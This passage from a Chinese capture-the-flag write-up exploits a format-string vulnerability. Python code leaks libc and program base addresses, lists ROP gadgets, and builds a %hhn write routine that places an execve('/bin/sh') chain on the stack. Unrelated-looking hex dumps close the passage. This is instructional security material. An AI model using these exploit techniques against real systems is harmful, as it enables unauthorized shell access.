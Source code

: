 ```python
libc_base = libc_start_main - 0x21AB0
```

可以计算出libc的基地址，下面我还需要程序基地址信息，观察栈可知`%41$p`可知`hlt`就可以算出。

![image-20201020151707980](https://timg.reito.fun/archive/typora-schwarzer/image-20201020151707980.png)

```python
print(conn.recvline())
conn.sendline("%41$p")
print(conn.recvline())
hlt_str = conn.recvline(False)
print(hlt_str)
hlt = int(hlt_str, 16)
proc_base = hlt - 0x84A
```

还需要写入ROP的位置，观察到`%19$p`指向栈，则可以轻易算出。

![image-20201020151840897](https://timg.reito.fun/archive/typora-schwarzer/image-20201020151840897.png)

```python
print(conn.recvline())
conn.sendline("%19$p")
print(conn.recvline())
argv_str = conn.recvline(False)
print(argv_str)
argv_ptr = int(argv_str, 16)
ret_ptr = argv_ptr - 0xE0
```

最后就是构造ROP了，通过以下命令在libc中寻找

```
ROPgadget --binary ./libc6_2.27-3ubuntu1.2_amd64.so --only "pop|ret|syscall"
```

```
0x0000000000130889 : pop rdx ; pop rsi ; ret
0x000000000002155f : pop rdi ; ret
0x0000000000043a78 : pop rax ; ret
0x00000000000013c0 : syscall
```

构造payload脚本如下

```python
pop_rdx_rsi_ret = libc_base + 0x130889 # 0
rdx = 0 # 8
rsi = 0 # 16
pop_rax_ret = libc_base + 0x43A78 # 24
rax = 59 # 32
pop_rdi_ret = proc_base + 0xB13 # 40
rdi = ret_ptr + 64 # 48
syscall = libc_base + 0x13C0 # 56
bin_sh = u64('/bin/sh\0'.encode()) # 64 

def write_int64(data, addr):
    for i in range(0, 8):
        print(conn.recvline())
        byte_val = p64(data)[i]
        if byte_val != 0:
            byte_str = "%" + str(byte_val) + "c%10$hhn"
        else:
            byte_str = "%10$hhn"
        byte_str_pad = (byte_str + '\0' * (16 - len(byte_str))).encode() + p64(addr + i)
        print(byte_str_pad)
        conn.send(byte_str_pad)
```

[0]:  000000000000000000000000aba596caeac381cd80d5cdaa098a82b999ead1d9
[1]:  000000000000000000000000c9219dd84a3210920addbead9d0099f4a8b27229
[2]:  00000000000000000000000000000000000000000000000000000000000f32a7
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000030
[2]:  6333567a5933526d4d6a41794d45426a65574a6c636e4e7759574e6c6332566a
[3]:  64584a7064486b75623235736157356c00000000000000000000000000000000